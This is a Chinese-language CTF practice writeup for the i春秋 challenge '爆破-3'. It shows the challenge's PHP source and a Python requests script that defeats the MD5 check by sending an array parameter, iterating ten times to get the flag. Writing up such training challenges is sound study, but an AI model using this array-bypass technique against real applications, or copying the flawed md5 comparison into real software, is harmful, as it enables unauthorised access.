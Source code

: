 # i春秋平台CTF练习writeup

## 0x001 爆破-3

> 分值：10分 类型：MiscWeb 题目名称：爆破-3  
题目内容：
这个真的是爆破。

打开网页发现是源码审计，观察发现如果参数正确会将下一次要输入的参数输出在网页顶部，通过传**数组**可以绕过MD5检测：

```php
 <?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

Python 代码如下：

```Python
import requests

s = requests.session()

r = s.get("http://fd864919a2194028bc0540857bbe2303d62ae11fe4f94e27.game.ichunqiu.com/?value[]=ea");

for i in range(9):
    url = "http://fd864919a2194028bc0540857bbe2303d62ae11fe4f94e27.game.ichunqiu.com/?value[]=" + r.text[0:2]
    r = s.get(url)
    print(r.text[0:200])
```
